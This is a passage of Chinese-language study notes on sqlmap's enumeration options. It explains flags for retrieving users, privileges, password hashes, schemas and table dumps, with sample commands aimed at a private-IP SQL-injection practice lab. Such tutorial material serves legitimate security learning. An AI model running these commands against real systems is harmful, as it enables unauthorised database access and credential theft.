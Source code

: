 <img src="..\..\..\imgs\_Kali\sqlmap\Snipaste_2020-09-14_16-20-57.png"/>

  同时还可以获取账户密码的Hash ，也包括解码一些常见的明文密码

<img src="..\..\..\imgs\_Kali\sqlmap\Snipaste_2020-09-14_16-23-26.png"/>

- ` -b, --banner        Retrieve DBMS banner`

  获取数据库的bann信息

- `--current-user      Retrieve DBMS current user`

  获取数据库当前的用户

- `--hostname          Retrieve DBMS server hostname`

  获取主机名

- ` --users             Enumerate DBMS users`

  获取所有用户名

- `--privileges        Enumerate DBMS users privileges`

  获取用户权限，使用`-U`指定用户

- `--passwords         Enumerate DBMS users password hashes`

  获取密码哈希值以及解密，使用`-U`指定用户

  ```
  sqlmap -u "http://192.168.80.129/sqli/Less-1/?id=1" -o --password -U root
  ```

  可以使用如下格式尝试登入数据库，==需要远程登入授权才能登入==

  ```
  mysql -h 192.168.80.129 -u root -p
  ```

- `--dbs               Enumerate DBMS databases`

  获取所有的数据库

- `--tables            Enumerate DBMS database tables`

  如果没有指定 `-D`，==枚举所有数据库中所有表==。使用`--exclude-sysdbs`来排除系统的表

- `--columns           Enumerate DBMS database table columns`

  通过`-D`指定DB，==如果没有指定DB就使用当前探测的数据库==；使用`-T`指定table，如果没有指定查询所有table的字段以及类型；使用`-C`指定查询某一列

  ```
  sqlmap -u "http://192.168.80.129/sqli/Less-1/?id=1" -o --columns -D mysql
  ```

- ` --schema            Enumerate DBMS schema`

  列出所有的数据库，表名，字段名，字段类型。使用`--exclude-sysdbs`排除系统数据库

- `--dump              Dump DBMS database table entries`

  获取表中的详细信息，==并存储到本地==

